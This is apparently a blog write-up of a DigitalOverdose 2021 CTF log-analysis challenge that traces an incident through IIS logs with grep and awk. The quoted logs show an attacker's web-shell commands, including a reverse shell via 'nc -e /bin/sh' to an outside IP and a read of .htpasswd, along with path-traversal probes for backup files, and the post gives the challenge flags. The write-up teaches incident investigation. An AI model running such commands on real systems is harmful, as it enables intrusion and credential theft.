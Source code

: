 ```yaml
---
title:  "#writeup: DigitalOverdose - Log Analysis"
layout: post
date:   2021-10-10
ctfs: true
permalink: /writeup-dover21
redirect_to: https://scavengersecurity.com/posts/digitaloverdose-loganalysis/
author: jartigag
tag:
- ctf
- análisis
- ciberseguridad
- windows
mastodonReplies: https://mastodon.social/@jartigag/107079704581201058
twitterReplies: https://twitter.com/jartigag/status/1447522555275927552
---
```


[https://scavengersecurity.com/posts/digitaloverdose-loganalysis/](https://scavengersecurity.com/posts/digitaloverdose-loganalysis/)

```
original writeup metadata:
---
title: Log Analysis
event: DigitalOverdoseCTF 2021
date: 2021-10-09
discipline: log analysis
difficulty:
    - easy, 100 points. 34 solves when solved [2021-10-09 11:57 CEST], 133 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 150 points. 17 solves when solved [2021-10-09 11:57 CEST], 100 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 200 points. 13 solves when solved [2021-10-09 11:57 CEST],  84 solves at end [2021-10-10 21:50:33 CEST]
author: jartigag
tags: iis logs, access logs, grep, awk
---
```

# Log Analysis

> An incident has affected our website! Fortunately, we have logs.

This is a 3-part challenge. Two IIS logs are provided:

```bash
$ ll *log
9,4M attack.log
 46M more.log
$ for f in *log; do cat $f | (head -2; tail -1); done
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-09-01 00:28:00 135.233.142.30 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 83.147.40.142 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.1;+WOW64;+Trident/5.0) - 200 0 0 22
2021-09-06 23:49:22 135.233.142.30 GET conference - 443 - 194.48.242.119 Mozilla/4.0+(compatible;+MSIE+7.0;+Windows+NT+5.1) https://digitaloverdose.tech/ctf 200 0 0 20
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-08-01 00:27:00 45.85.1.176 GET cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js - 443 - 185.251.117.121 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;+.NET+CLR+1.1.4322) - 200 0 0 24
2021-08-31 23:34:04 45.85.1.176 GET privacy - 443 - 31.185.221.23 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1) https://digitaloverdose.tech/dovercon/2021 200 0 0 20
```

## 1 - Ingress

> Our website was hacked recently and the attackers completely ransomwared our server!
> We've recovered it now, but we don't want it to happen again.
> Here are the logs from before the attack, can you find out what happened?

We start inspecting some log fields, looking for something uncommon. For example, in the [`cs(Referer)` field](https://en.wikipedia.org/wiki/HTTP_referer):
```shell
$ awk '{print $(NF-4)}' attack.log | sort | uniq -c | sort -nr
   6947 -
   1343 https://digitaloverdose.tech/dovercon/sponsoring-edition-2021
   1318 https://digitaloverdose.tech/dovercon/2021/speakers
   1286 https://digitaloverdose.tech/dovercon/2021/code-of-conduct
   1278 https://digitaloverdose.tech/dovercon/2021/about
   1268 https://digitaloverdose.tech/dovercon/2021
   1262 https://digitaloverdose.tech/privacy
   1255 https://digitaloverdose.tech/ctf/2021-autumn
   1230 https://digitaloverdose.tech/team
   1225 https://digitaloverdose.tech/faq
   1224 https://digitaloverdose.tech/dovercon/2021/cfp
   1214 https://digitaloverdose.tech/copyright
   1213 https://digitaloverdose.tech/ctf/2021-spring
   1210 https://digitaloverdose.tech/dovercon
   1210 https://digitaloverdose.tech/conference
   1208 https://digitaloverdose.tech/dovercon/2021/sponsoring
   1206 https://digitaloverdose.tech/dovercon/cfp-edition-2021
   1205 https://digitaloverdose.tech/dovercon/team-edition-2021
   1204 https://digitaloverdose.tech/home
   1202 https://digitaloverdose.tech/ctf/about
   1197 https://digitaloverdose.tech/
   1194 https://digitaloverdose.tech/ctf
   1149 https://digitaloverdose.tech/dovercon/schedule-edition-2021
   1149 https://digitaloverdose.tech/dovercon/2021/mentors
   1135 https://digitaloverdose.tech/dovercon/2021/schedule
   1118 https://digitaloverdose.tech/dovercon/2021/team
   1090 https://digitaloverdose.tech/dovercon/speakers-edition-2021
      7 https://digitaloverdose.tech/ywesusnz
      1 cs(Referer)
```

What is that `ywesusnz`? Let's look which requests were made from that URI:
```shell
$ grep ywesusnz attack.log
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+.. 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/faq 200 0 0 20
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 21
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 22
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 20
$ echo RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== | base64 -d
DO{better_remove_that_backdoor}
```

## 2 - Investigation

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}

What characters would a suspicious request contain (maybe looking for a [path transversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack))?

```shell
$ grep "\.\." more.log | (head -3; tail -1)
2021-08-03 08:55:00 45.85.1.176 GET ../..//passwords.bckp - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 27
2021-08-03 08:55:00 45.85.1.176 GET ..//configuration.3 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET ../../..//db_config.1 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 25
2021-08-03 08:55:08 45.85.1.176 GET ../..//admin.txt - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 30
```

So we compose the flag with the client IP:

`DO{200.13.84.124}`

## 3 - Backup Policy

> So it looks like the attacker scanned our site for old backups right?  Did he get one?

Filtering the attack date and excluding the "404 - Not found" response code:

```bash
$ grep "2021-08-03 08:55" more.log | grep -v 404
2021-08-03 08:55:00 45.85.1.176 GET 8-es2015.9f210c2bd083cdacb0ee.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 26
2021-08-03 08:55:00 45.85.1.176 GET backup.zip - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+RE97czNjcjN0X19fYWdlbnR9;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 200 0 0 25
2021-08-03 08:55:29 45.85.1.176 GET runtime-es5.43df09c2199138dc23a5.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 22
2021-08-03 08:55:29 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 27
2021-08-03 08:55:29 45.85.1.176 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:29 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 21
2021-08-03 08:55:39 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 30
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
2021-08-03 08:55:39 45.85.1.176 GET dovercon/schedule-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
$ echo "RE97czNjcjN0X19fYWdlbnR9" | base64 -d
DO{s3cr3t___agent}
```
